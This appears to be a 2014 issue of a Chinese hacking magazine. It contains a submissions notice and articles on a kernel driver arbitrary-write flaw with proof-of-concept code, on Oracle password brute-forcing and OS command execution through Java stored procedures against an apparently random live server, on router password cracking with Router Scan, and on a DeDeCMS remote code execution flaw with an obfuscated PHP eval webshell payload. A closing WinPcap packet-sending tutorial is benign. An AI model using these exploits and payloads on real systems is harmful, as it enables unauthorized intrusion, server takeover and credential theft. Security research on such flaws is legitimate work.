我们关注局域网和广域网整体网络防/杀病毒、防渗透体系的建立；ARP 系统的整体防护；较有效的不损失网络资源的防范 DDoS 攻击技术等相关方面的技术文章。

### 搜索引擎优化

主要针对特定关键词在各搜索引擎的综合排名、针对主流搜索引擎的多关键词排名的优化技术。

#### 密界寻踪

关于算法、完全破解、硬件级加解密的技术讨论和病毒分析、虚拟机设计、外壳开发、调试及逆向分析技术的深入研究。

#### 编程解析

各种安全软件和黑客软件的编程技术探讨；底层驱动、网络协议、进程的加载与控制技术探讨和 virus 高级应用技术编写；以及漏洞利用的关键代码解析和测试。重点欢迎 C/C++/ASM 自主开发独特工具的开源讨论。

### 投稿格式要求：

- 1) 技术分析来稿一律使用 Word 编排，将图片插入文章中适当的位置，并明确标注“图 1”“图 2”；
- 2) 在稿件末尾请注明您的账户名、银行账号，以及开户地址，包括你的真实姓名、准确的邮寄地址和邮编、QQ 或者 MSN、邮箱、常用的笔名等，方便我们发放稿费。
- 3) 投稿方式和周期：  
  采用 E-Mail 方式投稿，投稿 mail: hadefence@gmail.com、QQ：675122680。投稿后，稿件录用情况将于 1～3 个工作日内回复，请作者留意查看。每月 10 日前投稿将有机会发表在下月杂志上，10 日后将放到下下月杂志，请作者朋友注意，确认在下一期也没使用者，可以另投他处。限于人力，未采用的恕不退稿，请自留底稿。  
  **重点提示：** 严禁一稿两投。无论什么原因，如果出现重稿——与别的杂志重复——与别的网站重复，将会扣发稿费，从此不再录用该作者稿件。
- 4) 稿费发放周期：  
  稿费当月发放（最迟不超过 2 月），稿费从优。欢迎更多的专业技术人员加入到这个行列。
- 6) 稿费发放办法：  
  银行卡发放，支持境内个人银行借记卡，不支持信用卡。
- 7) 投稿信箱及编辑联系  
  投稿信箱：675122680@qq.com、hadefence@gmail.com  
  编辑 QQ：675122680

| 稿件等级 | 稿费标准 |
|---|---|
| 一等稿件 | 900 元/篇 |
| 二等稿件 | 600 元/篇 |
| 三等稿件 | 300 元/篇 |
在攻与防的对立统一中寻求突破

# 黑客防线

### 10

总第 166 期  
2014

网站全新改版，欢迎访问：http://www.hacker.com.cn

HACKER DEFENCE

2014 年 第十期 黑客防线

- HWiNFO32 驱动任意地址写固定数据漏洞
- 分析渗透 Oracle 数据库
- 使用 Router Scan 破解路由器密码
- 隐藏在数据包背后的秘密
- 马甲 API 的实现原理及对抗
- 初探 Windows10 系统内核变化

## 《黑客防线》10 期文章目录

总第 166 期 2014 年

#### 漏洞攻防

- HWiNFO32 驱动任意地址写固定数据漏洞（ywledoc）……3
- 分析渗透 Oracle 数据库（赵显阳）……6
- 使用 Router Scan 破解路由器密码（simeon）……12
- DeDeCMS soft_edit.php 远程代码执行漏洞分析与利用（赵显阳）……16

#### 编程解析

- 隐藏在数据包背后的秘密（xfeng）……22
- 初探 Windows10 系统内核变化（zc）……30

#### 密界寻踪

- 马甲 API 的实现原理及对抗（木羊）……34
- 禁用 USB 软件的破解分析（BadTudou）……37

- 2014 年第 10 期杂志特约选题征稿……42
- 2014 年征稿启示……45

## HWiNFO32 驱动任意地址写固定数据漏洞

文 / ywledoc

这个漏洞是在研究驱动精灵的时候发现的，最后确认是其调用的 HWiNFO32 驱动所产生的问题，而 HWiNFO32 并非驱动精灵开发的驱动，所以最后写标题时也纠结了一番。废话不说了，开始。

HWiNFO32 驱动过滤不严，造成任意地址写固定数据漏洞。驱动精灵中包含 HWiNFO32，其名称为 Mydriver32.sys，发现很久了，版本已经不记得了，当时是安装驱动下载的最新版。

详细说下漏洞：在 DeviceIoControl 例程中，当 IoControlCode=0x85FE2600 时，不严格过滤用户传入的 lpOutBuffer 参数，直接调用 nt!IopCompleteRequest 后，经过一系列处理，最终在 nt!IopCompleteRequest 产生漏洞，可写任意地址。因其最终引发错误的代码发生在 nt!IopCompleteRequest，所以也与系统相关。经测试 XP SP3 可正常利用，Win7 则没有影响。

看看 WinDbg 的崩溃信息。

```text
PAGE_FAULT_IN_NONPAGED_AREA (50)
Invalid system memory was referenced.  This cannot be protected by try-except,
it must be protected by a Probe.  Typically the address is just plain bad or it
is pointing at freed memory.
Arguments:
Arg1: ffff0000, memory referenced.
Arg2: 00000001, value 0 = read operation, 1 = write operation.
Arg3: 804ed09b, If non-zero, the instruction address which referenced the bad memory
    address.
Arg4: 00000000, (reserved)
Debugging Details:
------------------

WRITE_ADDRESS:    ffff0000
FAULTING_IP:
nt!IopCompleteRequest+92
804ed09b f3a5            rep movs dword ptr es:[edi],dword ptr [esi]
MM_INTERNAL_CODE:    0
DEFAULT_BUCKET_ID:    CODE_CORRUPTION
BUGCHECK_STR:    0x50
PROCESS_NAME:    TestMyDriver32_
IRP_ADDRESS:    82177f68
DEVICE_OBJECT: 81d5f518
DRIVER_OBJECT: 81d26288
IMAGE_NAME:    DgSafe.sys
DEBUG_FLR_IMAGE_TIMESTAMP:    540684f3
MODULE_NAME: DgSafe
FAULTING_MODULE: b1250000 mydrivers32
TRAP_FRAME:    b137f91c -- (.trap 0xfffffffb137f91c)
```

```text
ErrCode = 00000002

eax=00000110 ebx=82177f68 ecx=00000044 edx=00000001 esi=81f24680 edi=ffff0000

eip=804ed09b esp=b137f990 ebp=b137f9d4 iopl=0 nv up ei pl nz na pe nc

cs=0008 ss=0010 ds=0023 es=0023 fs=0030 gs=0000 efl=00010206

nt!IopCompleteRequest+0x92:
804ed09b f3a5 rep movs dword ptr es:[edi],dword ptr [esi]

Resetting default scope
LAST_CONTROL_TRANSFER: from 80533797 to 804e450a
STACK_TEXT:
b137f46c 80533797 00000003 ffff0000 00000000 nt!RtlpBreakWithStatusInstruction
b137f4b8 8053426e 00000003 806f2298 c03fffc0 nt!KiBugCheckDebugBreak+0x19
b137f898 8053485e 00000050 ffff0000 00000001 nt!KeBugCheck2+0x574
b137f8b8 805251a8 00000050 ffff0000 00000001 nt!KeBugCheckEx+0x1b
b137f904 804e2747 00000001 ffff0000 00000000 nt!MmAccessFault+0x6f5
b137f904 804ed09b 00000001 ffff0000 00000000 nt!KiTrap0E+0xcc
b137f9d4 804ed11a 82177fa8 b137fa20 b137fa14 nt!IopCompleteRequest+0x92
b137fa24 806f2c35 00000000 00000000 b137fa3c nt!KiDeliverApc+0xb3
b137fa24 806f2861 00000000 00000000 b137fa3c hal!HalpApcInterrupt+0xc5
b137faac 804e63cc 82177fa8 82177f68 00000000 hal!KeReleaseInStackQueuedSpinLock+0x11
b137facc 804ed134 82177fa8 81d2d588 00000000 nt!KeInsertQueueApc+0x4b
b137fb00 b1251f27 81d2d588 81d26288 82177f68 nt!IopfCompleteRequest+0x1d8
WARNING: Stack unwind information not available. Following frames may be wrong.
b137fc34 804e4767 81d5f518 82177f68 806f22d0 mydrivers32+0x1f27
b137fc44 805692ab 82177fd8 81d2d588 82177f68 nt!IopfCallDriver+0x31
b137fc58 805781e2 81d5f518 82177f68 81d2d588 nt!IopSynchronousServiceTail+0x70
b137fd00 8057a705 00000054 00000000 00000000 nt!IopXxxControlFile+0x611
b137fd34 804df7f8 00000054 00000000 00000000 nt!NtDeviceIoControlFile+0x2a
b137fd34 7c92e514 00000054 00000000 00000000 nt!KiSystemServicePostCall
0013fed8 7c92d28a 7c801675 00000054 00000000 ntdll!KiFastSystemCallRet
0013fedc 7c801675 00000054 00000000 00000000 ntdll!ZwDeviceIoControlFile+0xc
0013ff3c 00401058 00000054 85fe2600 0013ff68 kernel32!DeviceIoControl+0xdd

FOLLOWUP_NAME: MachineOwner
MEMORY_CORRUPTOR: PATCH_DgSafe
FAILURE_BUCKET_ID: MEMORY_CORRUPTION_PATCH_DgSafe
BUCKET_ID: MEMORY_CORRUPTION_PATCH_DgSafe
Followup: MachineOwner
```

代码流程：mydriver32 -> nt!IopfCompleteRequest -> nt!IopCompleteRequest，在 mydrivers32+0x1f27 处，当 IoControlCode=0x85FE2600 时，不对用户传入的 OUTBUFF 进行任何验证，就直接调用了 nt!IopfCompleteRequest，而 IopCompleteRequest 有这样一段代码。

```c
status = STATUS_SUCCESS;

try {
    RtlCopyMemory(irp->UserBuffer,
                  irp->AssociatedIrp.SystemBuffer,
                  irp->IoStatus.Information);
} except(IopExceptionFilter(GetExceptionInformation(), &status)) {
```

正是这段代码，造成了漏洞。但按调用代码来说，复制进去的数据应当为 POC 中的数据，但实际却固定为 **0x2**，不知为何，希望有人能告知。下面是可利用的 POC 代码。

```c
VOID TestMyDriver32()
{
    HANDLE  hCreateFile = INVALID_HANDLE_VALUE;
    DWORD   dwInBuffer = 0x6c77792a;
    DWORD   dwOutBuffer = 0xf8be8020; // 内核可写地址请自行更改
    hCreateFile = CreateFileA("\\\\.\\HWiNFO32",
                              0,                // no access to the drive
                              FILE_SHARE_READ | // share mode
                              FILE_SHARE_WRITE,
                              NULL,             // default security attributes
                              OPEN_EXISTING,    // disposition
                              0,                // file attributes
                              NULL);
    if (hCreateFile == INVALID_HANDLE_VALUE)
    {
        printf("Error Open Device!\n");
        return;
    }
    DeviceIoControl(hCreateFile,
                    0x85FE2600,
                    (LPVOID)&dwInBuffer,
                    4,
                    (LPVOID)dwOutBuffer,
                    0,
                    &dwInBuffer,
                    NULL);
    CloseHandle(hCreateFile);
    return;
}

int _tmain(int argc, _TCHAR* argv[])
{
    char cSSS[10];
    TestMyDriver32();
    scanf("%s", cSSS);
    return 0;
}


```

图 1 是漏洞触发的结果验证。
图 1

## 分析渗透 Oracle 数据库

文/图 赵显阳

Oracle 是一个数据库系统，和 MS SQL Server 数据库类似，支持 SQL 语言的同时还支持 Ada 编程、Java 代码编程等，可以运行在 Windows、Linux 等操作系统上。本文将对如何渗透 Oracle 数据库系统进行研究。

Oracle 的漏洞有很多，如默认 DBSNMP 账号密码、低版本的 SID 枚举、本地权限提升、一些函数存在 SQL 注入、缓冲区溢出等。下面我们先来破解 Oracle 的登录账号，然后使用 Delphi 编程在数据库服务器上执行任意命令。

### Oracle 数据库账号破解

破解无非是暴力破解，即不断地尝试密码，直到成功登录系统为止。破解前需要一个字典，字典很关键，决定了破解的结果。我们用到一款工具“Oracle 数据库审计工具”，其界面如图 1 所示。
图 1

我们在网上随便找个 Oracle 系统吧。怎么找？看端口 1521 是否开放，是的话就说明服务器是 Oracle 的。我们以 202.107.*.* 为例来测试下，如图 2 所示。
图 2

### Oracle 数据库执行任意命令

我们使用 Delphi 的 ODAC 组件来编程实现命令执行。命令执行是建立 Java 函数来执行 OS 命令。先看看版本 1 的代码，这个代码有个缺陷，就是在 SQL 窗口中没有返回内容（在 ODAC 中也是一样的），但是在 sqlplus 中是有返回内容的，代码如下：

```sql
// 创建 Java 源 www_isafe_cc_Util
create or replace and compile
    java source named "www_isafe_cc_Util"
as
    import java.io.*;
    import java.lang.*;
    public class www_isafe_cc_Util extends Object
    {
        public static int RunThis(String args)
        {
            Runtime rt = Runtime.getRuntime();
            int rc = -1;
            try
            {
                Process p = rt.exec(args);
                int bufSize = 4096;
                BufferedInputStream bis =
                    new BufferedInputStream(p.getInputStream(), bufSize);
                int len;
                byte buffer[] = new byte[bufSize];
                // Echo back what the program spit out
                while ((len = bis.read(buffer, 0, bufSize)) != -1)
                    System.out.write(buffer, 0, len);
                rc = p.waitFor();
            }
            catch (Exception e)
            {
                e.printStackTrace();
                rc = -1;
            }
            finally
            {
                return rc;
            }
        }
    }
/
Java created.
```

```sql
// 建立函数 www_isafe_cc_RUN_CMD
create or replace
function www_isafe_cc_RUN_CMD(p_cmd in varchar2) return number
as
language java
name 'www_isafe_cc_Util.RunThis(java.lang.String) return integer';
/
Function created.
```

```sql
// 建立一个过程调用函数
create or replace procedure RC(p_cmd in varchar2)
as
x number;
begin
x := www_isafe_cc_run_cmd(p_cmd);
end;
```

在 sqlplus 中调用，结果如图 2 和图 3 所示。

```sql
variable x number;
set serveroutput on
exec dbms_java.set_output(100000);
grant javasyspriv to system;
grant javauserpriv to system;
exec :x := www_isafe_cc_RUN_CMD('ipconfig');


```
图 2
图 3

但是在 SQL 窗口中不能执行，SQL 窗口和 sqlplus 中的命令窗口是有区别的，因为 Delphi 中的 ODAC 组件是 SQL 窗口方式执行的。在网上找了很多资料，没有解决。后来改用 Java 代码实现了使用 ODAC 组件的执行命令内容返回，该部分代码称为版本 2，代码如下：

创建 Java 源 www_isafe_cc_Util：

```java
create or replace and compile java source named "www_isafe_cc_Util" as
import java.io.*;
public class www_isafe_cc_Util extends Object {
    public static String runCMD(String args) {
        try {
            BufferedReader myReader = new BufferedReader(
                new InputStreamReader(
                    Runtime.getRuntime().exec(args).getInputStream()
                )
            );
            String stemp, str = "";
            while ((stemp = myReader.readLine()) != null) str += stemp + "\n";
            myReader.close();
            return str;
        } catch (Exception e) {
            return e.toString();
        }
    }
    public static String readFile(String filename) {
        try {
            BufferedReader myReader = new BufferedReader(new FileReader(filename));
            String stemp, str = "";
            while ((stemp = myReader.readLine()) != null) str += stemp + "\n";
            myReader.close();
            return str;
        } catch (Exception e) {
            return e.toString();
        }
    }
}
```

创建调用函数 www_isafe_cc_RunCMD：

```sql
create or replace function www_isafe_cc_RunCMD(p_cmd in varchar2) return varchar2
as language java
name 'www_isafe_cc_Util.runCMD(java.lang.String) return String';
```

赋予执行权限：

```sql
begin
  dbms_java.grant_permission(
    'PUBLIC',
    'SYS:java.io.FilePermission',
    '<<ALL FILES>>',
    'execute'
  );
end;


```

命令成功执行了，如图 4 所示，有结果返回。其它的功能如读文件、目录浏览代码差不多。如下是 Delphi 执行命令的关键代码：
图 4

```pascal
procedure TfrmMain.btnCreateFunClick(Sender: TObject);
var
  ConnStr: string;
  StrSQL, StrSQL2: string;
begin
  btnCreateFun.Enabled := False;
  try
    try
      ConnStr := Format('%s/%s@%s', [edtUser.Text, edtPass.Text, edtSid.Text, edtHost.Text]);

      OraSession1.Options.Direct := True;
      OraSession1.Server := edtHost.Text;
      OraSession1.Username := edtUser.Text;
      OraSession1.Password := edtPass.Text;
      OraQuery1.Connection := OraSession1;

      if OraQuery1.Active then
        OraQuery1.Active := False;
      OraQuery1.SQL.Clear;
      // OraQuery1.SQL.Text := 'select * from v$version';
      OraQuery1.SQL.Text := MemoPack.Lines.Text;
      OraQuery1.Execute;
      Memo1.Lines.Add('包已建立');
      while not OraQuery1.Eof do
      begin
        Memo1.Lines.Add(OraQuery1.Fields[0].AsString);
        OraQuery1.Next;
      end;

      if OraQuery1.Active then
        OraQuery1.Active := False;
      OraQuery1.SQL.Clear;
      OraQuery1.SQL.Text := MemoFunc.Lines.Text;
      OraQuery1.Execute;
      Memo1.Lines.Add('函数已建立');
      while not OraQuery1.Eof do
      begin
        Memo1.Lines.Add(OraQuery1.Fields[0].AsString);
        OraQuery1.Next;
      end;

      if OraQuery1.Active then
        OraQuery1.Active := False;
      OraQuery1.SQL.Clear;
      OraQuery1.SQL.Text := MemoProc.Lines.Text;
      OraQuery1.Execute;
      Memo1.Lines.Add('过程已建立');
      while not OraQuery1.Eof do
      begin
        Memo1.Lines.Add(OraQuery1.Fields[0].AsString);
        OraQuery1.Next;
      end;

      StrSQL2 := 'begin dbms_java.grant_permission(''PUBLIC'', ''SYS:java.io.FilePermission'', ''<<ALL FILES>>'', ''execute'');end;';
      StrSQL  := 'begin dbms_java.grant_permission(''PUBLIC'', ''SYS:java.io.FilePermission'', ''<<ALL FILES>>'', ''read'');end;';

      if OraQuery1.Active then
        OraQuery1.Active := False;
      OraQuery1.SQL.Clear;
      OraQuery1.SQL.Add(StrSQL);
      OraQuery1.ExecSQL;
      Memo1.Lines.Add('赋予权限');

      if OraQuery1.Active then
        OraQuery1.Active := False;
      OraQuery1.SQL.Clear;
      OraQuery1.SQL.Add(StrSQL2);
      OraQuery1.ExecSQL;
      Memo1.Lines.Add('赋予权限');

      ListFolderJavaSource;
      Memo1.Lines.Add('列目录');
    except
      on E: Exception do
      begin
        ShowMessage(E.Message);
      end;
    end;
  finally
  end;
  btnCreateFun.Enabled := True;
end;


```

本文从 Oracle 数据库基本的密码破解入手，到执行服务器任意命令，一步一步来实现，最终控制了数据库所在服务器系统。

## 使用 Router Scan 破解路由器密码

文/图 simeon

Router Scan 是一款路由器安全测试工具，可以指定 IP 段对路由器进行暴力破解等安全测试，支持多种 TP-LINK、Huawei、Belkin、D-Link 等各大品牌型号的路由器，为俄罗斯安全人员开发的一套安全测试工具。目前已经对源代码进行开源，最新版本为 2.47，官方网站地址：http://stascorp.com/load/1-1-0-56。该软件善于寻找和确定不同的设备，发现大量已知的路由器或服务器，最重要的是能把其中有用的信息扫描出来，其使用过程非常简单，撰文分享。

### 运行 Router Scan v2.47

Router Scan v2.47 在网上有汉化版本供下载，不过有些版本杀毒软件会提示其携带病毒，最好到官方站点下载。Router Scan 是免安装软件，直接运行可执行程序 RouterScan.exe 即可，界面如图 1 所示。Router Scan v2.47 在 Router Scan v2.44 基础上做了一些改动：编辑扫描 IP 地址范围、自动保存结果，增加了一些扫描模块。
图 1 运行 RouterScan 程序

### 设置 RouterScan 扫描参数

- 1）设置扫描端口

在 RouterScan 中一共有六个地方需要设置参数，最大线程使用默认（100）即可，超时也不用修改。在端口扫描（scan ports）中单击“+”可以增加自定义路由器扫描端口，这对修改默认路由器端口为其它端口的扫描特别有用。如图 2 所示，在弹出的对话框中输入数字端口号即可，例如 443 表示对 443 端口进行扫描并破解。
图 2 增加扫描端口

## 2）设置扫描 IP 地址范围

在 IP 地址扫描范围（Enter IP ranges to scan）中单击“+”可以增加扫描 IP 地址，也可以通过修改“ranges.txt”文件内容进行扫描，例如扫描 124.205.0.1-124.205.255.255，表示扫描“124.205”的 B 段，如图 3 所示，也可以扫描某一个 IP 地址。另外还可以单击“E”，直接编辑扫描范围，方便对地址段进行编辑和扫描，如图 4 所示。
图 3 设置扫描 IP 地址范围
图 4 改进 IP 地址编辑

## 3）设置其它参数

如图 5 所示，默认自动保存扫描结果，可以设置扫描代理服务器等信息。单击“start scan”开始进行扫描。扫描结果会实时在“Realtime Stats”中进行显示。
图 5 设置其它参数

## 4）自定义字典

在扫描软件目录，打开 auth_basic.txt 文件，如图 6 所示，添加账号和密码，账号和密码用空格隔开，可以使用“//”进行注释，便于字典的维护。
图 6 增加字典

## 查看并分析扫描结果

在 RouterScan 中提供了扫描状态和结果显示，如图 7 所示，状态和结果都在软件的下方，通过标签“Realtime Stats”、“Good Results”和“Search Results”进行查看。对扫描的结果，可以选中目标，右键单击直接访问有结果的目标，如图 8 所示。
图 7 查看扫描结果
图 8 访问破解站点目标

## DeDeCMS soft_edit.php 远程代码执行漏洞分析与利用

文/图 赵显阳

DedeCms 是一套开源的内容发布系统，20140228 更新版本存在远程代码执行漏洞，成功利用该漏洞的攻击者，能执行任意 PHP 代码。

要成功利用该漏洞需要前台普通会员权限，漏洞文件为 soft_edit.php 文件，关键代码如下：

```php
if(!preg_match("#[_=&//?\.a-zA-Z0-9-]+$#i", $softurl))
{
    ShowMsg("确定软件地址提交正确!", "-1");
    exit;
}
```

上面的一行正则能匹配任意字符，所以走不到 ShowMsg() 这里。编写代码来测试一下，下面是我写的 PHP 代码，文件名为 preg_match.php。

```php
<?php

$softurl='http://www.isafe.cc/';

if(!preg_match("#[-=&///?\.a-zA-Z0-9_]+$#i", $softurl)){
    print "不能往下执行，退出";
}
else
{
    print "可以匹配，漏洞触发";
}

?>


```

执行 preg_match.php，效果如图 1 所示。
图 1

用浏览器打开：http://test.isafe.cc:2217/DedeCMS_GBK_5.7/，然后注册会员，如图 2 所示。
图 2

注册成功会转到会员中心，在内容中心栏目-软件中，可以上传一个软件，如图 3 所示。
图 3

上传任意一个软件，点击“修改”，修改“软件地址1”为 `http://www.isafe.cc/x\{/dede:link\}{dede:a text\`=x\`}]=0;eval(chr(101).chr(118).chr(97).chr(108).chr(40).chr(34).chr(36).chr(95).chr(80).chr(79).chr(83).chr(84).chr(91).chr(99).chr(93).chr(59).chr(34).chr(41).chr(59));// }xxxx\{/dede:a\}{dede:link}`，如图 4 所示。
图 4

提交后在 `data\tplcache\` 目录下会生成一个 inc 文件，如图 5 所示。
图 5

文件 `4e1756b17370bd7e1c9c4fac86068d62.inc8ed5b5c7ac50306d.inc` 的代码如下：

```php
<?php

$z[0]=Array("link","http://www.isafe.cc}x",0,61);
$z[0][4]['text']='本地下载';

$z[1]=Array("a","xxxx",61,260);
$z[1][4]['text`=x`]=0;eval(chr(101).chr(118).chr(97).chr(108).
chr(40).chr(34).chr(36).chr(95).chr(80).chr(79).chr(83).chr(84).
chr(91).chr(99).chr(93).chr(59).chr(34).chr(41).chr(59));//";

$z[2]=Array("link","",260,284);

?>
```

可以看到我们提交的代码已经存在了。Dedecms 会在 `{dede:a text'=x']=0;eval` 中的 x 之前加个“'”，所以要想办法闭合引号。

```
http://www.isafe.cc}x{/dede:link}{dede:a text'=x']=0;phpinfo();// }xxxx{/dede:a}{dede:link}xxx


```

在 GPC 为 On 和 Off 下，情况是不同的。下面来研究 magic_quotes_gpc=Off 下的情况，需要修改“text'=x'”为“text\\=x'”，这是因为在代码执行时，进行了转化，转化为了“$z[1][4]['text']='x']=0;”。

上面的代码无法闭合 text 后面的单引号，这个单引号是 dedecms 自动加上的，所以用“\\'”，系统认为这个是转义字符，从而闭合了。那么如何构造一个“\\'”字符呢？只需要在“软件地址1”里填入 `http://www.isafe.cc}x{/dede:link}{dede:a text\\=x']=0;phpinfo();// }xxxx{/dede:a}{dede:link}xxx` 就可以了，就是在 text 后加入 2 个斜杠“\\”，最后代码 phpinfo() 会被执行，如图 6 所示。
图 6

下面再看看 magic_quotes_gpc=On 的时候，如何执行任意代码。Text 后去掉一个斜杠，变为 `http://www.isafe.cc}x{/dede:link}{dede:a text\=x']=0;phpinfo();// }xxxx{/dede:a}{dede:link}xxx`，代码执行就成功了。

我写了一个工具“dedecms 5.7 member/soft_edit.php 代码执行漏洞”，利用效果如图 7 和图 8 所示。这样一来，利用这个漏洞就简单多了。
图 7
图 8

（完）

## 隐藏在数据包背后的秘密

文/图 xfeng

在谍战片中，我们经常会看到特工人员发送秘密的情报，用于判断最新的军事局面。在网络应用中，网络安全管理人员也经常需要向网络发送原始数据包，用于分析网络存在的各种问题。例如，在网络测试中分析接收端软件接收数据包的性能，就需要了解达到多大网络流量时软件将会出现丢失数据包的现象。在这种情况下，就需要人为地生成不同的网络流量来测试软件的性能指标了。

比如，为了测试网络的传输性能，我们可能还需要生成网络的峰值流量，即接近网卡带宽极限的流量。例如 100Mbits/s 的网卡需要发送 99.8Mbits/s 的流量。在某些情况下还可能会要求在特定时间段内生成恒定的网络流量，如连续生成 50Mbits/s 的网络流量两个小时。甚至有时候还需要严格控制每个数据包发送的时间间隔，如每 200us 向网络发送一个数据包。诸如此类的要求，是通过操作系统所提供的 Socket 方式无法有效实现的，但通过使用 WinPcap 库提供的数据包发送功能，则可很容易地满足这些要求。

在接下来的内容中，我们将演示一些使用 WinPcap 发送数据包的实例，同时结合 WinPcap 源代码，对网络分析中如何设计与实现灵活高效率的数据包发送功能进行详细的分析。

## 发送数据包的基础知识

在网络分析中，要灵活高效率地发送数据包在设计与实现上存在着如下主要难点：需要有非常高的网络流量，以及极高的网络带宽利用率；对于同步发送方式，需要有精准的时间控制；由于数据包的发送过程贯穿于用户空间与内核空间，所以还需要有效地提高交互效率；需要给用户提供齐备的机制，才能使用户灵活使用所提供的功能。因此，需要有一些技巧来克服以上困难。

### 1. 发送数据包的几种方式

针对不同的应用情况，WinPcap 提供了下列四种方式来把原始数据包发送到网络中。

- 第一种方式：每次发送一个数据包一次。
- 第二种方式：每次发送一个数据包，但在内核中重复发送多于一次，需要预先设定次数。
- 第三种方式：每次发送一个发送队列（发送队列是一个容器，它能容纳不同数量的数据包），并根据每个数据包的时间戳严格按顺序发送各数据包（称为同步方式）。
- 第四种方式：每次发送一个发送队列，但不根据每个数据包的时间戳发送各数据包，而是尽可能快速地发送各数据包（称为异步方式）。

### 2. 常见的函数说明

为了使用户能够顺利完成数据包的发送任务，在 WinPcap 的库 wpcap.dll 中提供了下列函数，用户可以很方便地使用它们。

```c
int pcap_sendpacket(pcap_t *p, u_char *buf, int size);
```

函数发送单个原始数据包一次或多次。

```c
pcap_send_queue* pcap_sendqueue_alloc(u_int memsize);
```

函数分配一个发送队列。

```c
int pcap_sendqueue_queue(pcap_send_queue *queue,
    const struct pcap_pkthdr *pkt_header,
    const u_char *pkt_data);
```

函数把一个原始数据包添加到 queue 参数所指定的发送队列的尾部。

```c
u_int pcap_sendqueue_transmit(pcap_t *p,
    pcap_send_queue *queue, int sync);
```

函数发送一个数据包队列到网络。

```c
void pcap_sendqueue_destroy(pcap_send_queue *queue);
```

函数释放与一个发送队列相关的所有资源。

这里重点分析一下单个数据包的发送函数。如果设置为只发送一次，那么每调用一次 pcap_sendpacket 函数，就会发送单个原始数据包一次。该函数的原型如下：

```c
int pcap_sendpacket(pcap_t *p, const u_char *buf, int size)
```

其中，参数 p 用来发送数据包的一个 pcap_t 类型描述符（可通过 pcap_open 函数获得该描述符），参数 buf 包含所要发送数据包的内容（包含数据包的协议头），参数 size 是 buf 所指缓冲区的大小，也就是所要发送的数据包的大小。另外，无须在数据包中包含 MAC 的 CRC 校验字段，它是由网络接口驱动程序计算并添加的。函数 pcap_sendpacket 如果执行成功则返回 0，否则返回 -1。

该函数的具体实现如下：

```c
int pcap_sendpacket(pcap_t *p, const u_char *buf, int size)
{
    if (p->inject_op(p, buf, size) == -1)
        return (-1);
    return (0);
}
```

## 数据包发送实例详解

为了更好地理解在网络分析中如何根据实际要求发送数据包，我们使用 WinPcap 所提供的函数来演示各种发送方式，同时还分别提供了典型的使用示例程序与简单的测试结果。

### 1. 发送单个数据包

WinPcap 发送单个数据包的实现主要依赖于 wpcap.dll 库中的 pcap_sendpacket 函数，而该函数主要依赖于 Packet.dll 库所提供的 PacketSendPacket 函数，不过，最终的数据包发送是在内核空间的 NPF_Write 函数中调用 NDIS 库的 NdisSend 函数完成的。下面的代码将演示如何通过 WinPcap 提供的 pcap_sendpacket 函数发送单个数据包一次。

```c
/*生成数据包的函数*/
void gen_packet(unsigned char *buf, int len);

int main()
{
    /*获得系统的网络适配器设备列表，并选择一个适配器设备，打开它*/
    ...

    /*发送数据包*/

    // 生成数据包
    int packetlen = 100;    // 数据包长度为 100 字节
    unsigned char *buf = (unsigned char *)malloc(packetlen);
    memset(buf, 0x0, packetlen);
    gen_packet(buf, packetlen); // 获得生成的数据包，长度为 packetlen

    // 开始数据包发送
    if ((ret = pcap_sendpacket(adhandle, buf, packetlen)) == -1)
    {
        // 发送失败，释放资源，程序返回
        ...
        return -1;
    }

    /*
    * 释放资源，
    * 包括关闭打开的适配器，释放适配器设备列表，释放存储待发数据包的内存
    */
    ...
    return 0;
}
```

此示例程序在打开了合适的网络适配器后，为了存储数据包，会执行内存分配并清零。然后调用 `gen_packet` 函数生成一个数据包，该数据包的长度为 100 个字节。最后调用 WinPcap 库的 `pcap_sendpacket` 函数把该数据包发送到网络上。

其中 `gen_packet` 函数负责生成数据包，其参数 `buf` 用来保存所生成数据包的内容，`len` 为要求生成的数据包的长度。函数 `gen_packet` 的具体实现如下：

```c
void gen_packet(unsigned char *buf, int len)
{
    int i = 0;

    // 给数据包的第 0 到 5 字节填充目标 MAC 地址:01:01:01:01:01:01
    for (i = 0; i < 6; i++)
    {
        buf[i] = 0x01;
    }

    // 给数据包的第 6 到 11 字节填充源 MAC 地址:02:02:02:02:02:02
    for (i = 6; i < 12; i++)
    {
        buf[i] = 0x02;
    }

    // 给数据包的第 12 到 13 字节填充协议标识 0xcd，无任何实际意义
    buf[12] = 0xc;
    buf[13] = 0xd;

    // 从第 14 字节开始填充数据包内容，从 0 开始递增填数
    for (i = 14; i < len; i++)
    {
        buf[i] = i - 14;
    }
}
```

在上面的示例程序中使用了下列代码生成待发的数据包，数据包长度为 100 字节：

```c
// 数据包长度为 100 字节
int packetlen = 100;
// 分配内存
unsigned char *buf = (unsigned char *)malloc(packetlen);
// 内存清零
memset(buf, 0x0, packetlen);
// 生成数据包
gen_packet(buf, packetlen);


```

代码最终生成的数据包内容如图 1 所示。
换句话说，在网络上实际接收到的数据包内容也应该与此相同。我们使用 Wireshark 工具来接收该示例程序所发送的数据包，实验结果如图 2 所示。
图 2 Wireshark 所接收的数据包

从图 2 可见，其所接收的数据包与图 1 一致，这表示示例代码是正确的。

### 2. 重复发送单个数据包

在发送单个数据包的实现中，每发送一个数据包，用户空间的应用程序就需要一次 WriteFile 系统调用，以便通过内核驱动程序执行数据包的发送。而这会导致网络数据包的发送效率不太高。正因为如此，为了满足生成大的网络流量、高网络带宽利用率的需要，WinPcap 提供了使用一次 WriteFile 系统调用就能把单个数据包重复发送多次的功能。该重复发送的功能是在内核中实现的，由于上下文切换的负载不再出现，因此性能得到了显著提升，所以数据包的发送效率非常高。不过该功能只能对数据包内容进行简单的、机械性的重复。该功能通过用户空间的应用程序设置单个数据包重复发送的次数来实现。例如设为 1000，那么应用程序发送的每个原始数据包，在内核驱动程序中都将会重复发送 1000 次。如果是测试，就可使用该特性生成高速网络流量。

注意，目前只在 Packet.dll 库中提供了辅助接口函数 PacketSetNumWrites 来实现重复发送功能，而在 wpcap.dll 库中并没有对应的函数。

接下来将演示如何在内核中重复发送单个数据包。其实很简单，在 [send 工程] 的源文件 main.cpp 中添加下面的代码即可。

```cpp
#include <pcap-int.h>

/*调用 Packet.dll 库提供的 PacketSetNumWrites 函数设置重复发送次数*/
// 重复 50 次
PacketSetNumWrites((LPADAPTER)(adhandle->adapter), 50);
```

因为 wpcap.dll 库中并没有提供设置重复发送次数的函数，所以此处只能调用 Packet.dll 库提供的 PacketSetNumWrites 函数来设置相应的值。运行示例程序，用 Wireshark 工具接收示例程序所发送的数据包，其结果如图 3 所示。

图 3 Wireshark 所接收的数据包

